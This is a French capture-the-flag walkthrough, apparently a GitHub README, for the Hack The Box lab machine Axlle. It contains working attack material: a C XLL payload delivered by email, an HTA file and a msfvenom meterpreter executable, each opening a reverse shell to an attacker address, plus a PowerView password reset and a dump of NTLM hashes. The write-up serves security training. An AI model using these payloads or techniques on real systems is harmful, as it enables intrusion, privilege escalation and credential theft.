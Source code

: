 # htb_axlle

### Trouver l’adresse et service  
Configurer correctement le VPN et obtenir l'adresse：10.10.11.21 
`nmap -sSvc 10.10.11.21`

![nmap](./images/nmap.png)

De nombreux ports ont été ouverts. Jetons un coup d'œil aux ports clés 80 et 445.

### Vérifiez les ports on trouvé

Port 80

![nmap](./images/diesearch.png)

Port 445

![nmap](./images/smb.png)

L’accès anonyme n’est pas possible non plus, donc il ne reste plus qu’à vérifier les autres ports.

J’ai remarqué le service SMTP sur le port 25 (en me référant à un rapport, il y a la possibilité d’utiliser XLL-EXEC pour envoyer un fichier à l’utilisateur admin et obtenir un accès shell).

### Essayez d'abord d'envoyer un article à l'administrateur (le compte administrateur est affiché dans l'interface Web)

`
swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "just a test"  --attach test.txt

`
![nmap](./images/25.png)

La vérification des informations montre que le fichier txt a été téléchargé sur le serveur de l'autre partie.

Après avoir essayé ici, j'ai découvert que d'autres formats de fichiers ne peuvent pas être téléchargés, seuls les fichiers XLL peuvent être téléchargés.

## XLL-EXEC

https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/#xll-exec

Copiez les fichiers et modifiez-les, et remplacez Powershell#3 (Base64) par le shell de rebond

`
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void);

void __cdecl xlAutoOpen() {
    WinExec("bash -c 'bash -i >& /dev/tcp/192.168.66.3/9100 0>&1'", 1);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

`

Utilisez gcc pour compiler des fichiers C en fichiers xll
`
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll exploit.c -luser32

`
Envoyez le fichier xll au compte administrateur et attendez l'exécution
`
swaks --to accounts@axlle.htb --from test@test.test --header "Subject: 111" --body "give me a shell"  --attach shell.xll

`

![nmap](./images/nc.png)

L'hôte ayant ouvert le service de messagerie, accédez à l'annuaire pour trouver des informations.
`
cd "C:\Program Files (x86)\hmailserver\"

`
Dans C:\Program Files (x86)\hmailserver\data\axlle.htb\dallon.matrix\2F>, il y a un fichier eml, affichez-le en tapant *

![nmap](./images/file.png)

### reverse shell hta
Un script d'automatisation est utilisé pour tester l'URL, en plaçant l'URL dans le dossier `C:\inetpub\testing`. Le fichier `priv.url` contient l'emplacement du script HTA, dans lequel vous devez ajouter un code de reverse shell.

`
#priv.url
[InternetShortcut]
URL=C:\Users\Public\Downloads\shell.hta

#shell.hta
<html>
<head>
<script language="jscript">
        var c = "bash -c 'bash -i >& /dev/tcp/192.168.66.3/9200 0>&1'"; 
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>self.close();</script>
</body>
</html>

`

![nmap](./images/9200.png)

Téléchargez un "sharphound" pour afficher les informations sur le domaine,donc téléchargez le fichier localement et utilisez Bloodhound pour l'analyse

![nmap](./images/blood.png)

### Réinitialiser le mot de passe utilisateur

On peut voir que le groupe "web devs" a l'autorisation de modifier le mot de passe de l'utilisateur jacob.greeny. Utilisez l'outil PowerView pour modifier son mot de passe.
`
. .\PowerView.ps1
$UserPassword = ConvertTo-SecureString 'Test123!' -AsPlainText -Force
Set-DomainUserPassword -Identity JACOB.GREENY -AccountPassword $UserPassword

`
Après modification, utilisez evil-winrm pour vous connecter à l'utilisateur.

![nmap](./images/modification.png)

### Réécrire le fichier

Vous avez trouvé un fichier README.md sous C:\App Development\kbfiltr, vérifiez-le

![nmap](./images/rewrite.jpg)

Il est à noter que le fichier `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` sera exécuté en tant que fichier système. Commencez par vérifier les autorisations de ce dossier.
`
icacls "C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64"

`
![nmap](./images/icacls.jpg)

On remarque que `Everyone` possède les permissions d'exécution et de lecture. Remplacez-le par votre propre payload.

`
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.36 LPORT=9500 -f exe -o standalonerunner.exe

`

![nmap](./images/shell.jpg)

Exporter le hash NTLM, ici le hash de Jacob correspond à la valeur avant la modification du mot de passe.

`
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6322b5b9f9daecb0fefd594fa6fafb6a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6d92f4784b46504cf3bedbc702ac03fe:::
david.brice:1109:aad3b435b51404eeaad3b435b51404ee:0279f2a1f290ff139458088afb45fa3f:::
frankie.rose:1110:aad3b435b51404eeaad3b435b51404ee:80c10c678c9b31e2091065c90519e529:::
brad.shaw:1111:aad3b435b51404eeaad3b435b51404ee:9cefad58a9a2188687922a6cc10485a3:::
samantha.jade:1112:aad3b435b51404eeaad3b435b51404ee:8047ec8cda0666f4e1c1be0ddc2d0378:::
gideon.hamill:1113:aad3b435b51404eeaad3b435b51404ee:aa753e07e1fd47a45e0ecb3a0cc70dab:::
xavier.edmund:1114:aad3b435b51404eeaad3b435b51404ee:9ecaa82cc22e0e1534493a03276dc02b:::
emily.cook:1115:aad3b435b51404eeaad3b435b51404ee:b35775e6e9d3af6c0dcf33cef162986d:::
brooke.graham:1116:aad3b435b51404eeaad3b435b51404ee:bcd1044566a9fb7fe130bdd5bcce7db1:::
trent.langdon:1117:aad3b435b51404eeaad3b435b51404ee:a4bbfacd030508d12f3a203bbab8b1f8:::
matt.drew:1118:aad3b435b51404eeaad3b435b51404ee:eb116285721b66b71d98803716b94616:::
jess.adams:1119:aad3b435b51404eeaad3b435b51404ee:933d10a14def0ed5ffbd708092d92e4d:::
jacob.greeny:1120:aad3b435b51404eeaad3b435b51404ee:805175c3d08be3027ed63e88a944f736:::
simon.smalls:1121:aad3b435b51404eeaad3b435b51404ee:d14ddd0880870e9d7fcb442653b6183e:::
dan.kendo:1122:aad3b435b51404eeaad3b435b51404ee:3fa7f786ca68123db7fdef522cb93a22:::
lindsay.richards:1123:aad3b435b51404eeaad3b435b51404ee:71d62e4384f2e9b92169a10a29539b2d:::
calum.scott:1124:aad3b435b51404eeaad3b435b51404ee:35a376bb58095b4a559fbceccdb01364:::
dallon.matrix:1125:aad3b435b51404eeaad3b435b51404ee:124a4a99bf67ca4b04e2266f967daa64:::
baz.humphries:1126:aad3b435b51404eeaad3b435b51404ee:ecfc37e6e4797f9ae97b61f0265c0561:::
MAINFRAME$:1000:aad3b435b51404eeaad3b435b51404ee:011a082f7649082b7fe7521c2ae2bb2a:::

`
